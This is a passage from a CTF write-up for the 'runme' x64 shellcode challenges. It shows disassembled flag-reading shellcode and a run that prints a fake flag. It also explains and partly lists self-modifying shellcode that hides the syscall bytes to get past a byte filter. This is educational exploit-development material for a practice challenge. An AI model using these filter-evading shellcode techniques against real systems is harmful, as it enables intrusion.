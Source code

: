 0000003B  E8C7FFFFFF        call 0x7
00000040  2F                db 0x2f
00000041  686F6D652F        push qword 0x2f656d6f
00000046  63                db 0x63
00000047  7466              jz 0xaf
00000049  2F                db 0x2f
0000004A  666C              o16 insb
0000004C  61                db 0x61
0000004D  672E7478          cs jz 0xc9
00000051  74                db 0x74
</pre>
Notice how the call function is now padded with FF bytes? That's what I was explaining above about a negative offset:
<pre>0000003B  E8C7FFFFFF        call 0x7
</pre>
And, of course, validate that it still works:
<pre>$ nasm -o solution2.bin solution2.asm
$ ./runme2 &lt; ./solution2.bin 
Send me x64!! No nulls, plz
CTF{fake_flag}
</pre>
<h2>Runme3</h2>
This is where it actually gets really hard. In addition to disallowing NULL bytes, I also disallow the bytes required for <tt>syscall</tt>, which also apparently breaks MSFVenom's encoder!

Typically, the syscall instruction is 0F 05:
<pre>00000039  0F05              syscall
</pre>
But those exact bytes aren't allowed! How do you get around THAT restriction?

There are many ways, and the most common way is to use an encoder. And encoder basically XORs each byte with a set value, which changes it to something else. At the start of the shellcode, you XOR by that value again, and voila! You have the original code back! That's called an encoder, and is often used for hiding malicious payloads. But we can do something a bit easier (or harder, I dunno).

The way I solved that was to put the syscall bytes, minus one, at the bottom of the code, the same way I put the flag path there, followed by a return instruction. It's a mini encoded function! Then I get a pointer to it using the same jmp/call/pop trick from earlier, and add 1 to each byte. That gives me a very small function I can call that simply performs a syscall.

This is technically "self modifying code", or maybe even "polymorphic shellcode", to use a fancy name. But it's the simplest version of it I could think of.

Let's take a look at <a href="https://github.com/BSidesSF/ctf-2021-release/tree/main/runme3/solution">the solution</a>:
<pre id="vimCodeElement"><span class="Identifier">bits</span> <span class="Number">64</span>

<span class="Comment">; Jump down to the bottom, where we have the bytes for syscall (less 1) waiting</span>
<span class="Identifier">jmp</span> <span class="Identifier">short</span> <span class="Identifier">my_fake_syscall_bottom</span>
  <span class="Identifier">my_fake_syscall_top</span>:
  <span class="Identifier">pop</span> <span class="Identifier">rbx</span> <span class="Comment">; Pop the address of the syscall-minus-1 block into rbx</span>
  <span class="Identifier">add</span> <span class="Identifier">word</span> [<span class="Identifier">rbx</span>], <span class="Number">0x0101</span> <span class="Comment">; Increment the two bytes - 0x0e -&gt; 0x0f and 0x04 -&gt; 0x05</span>
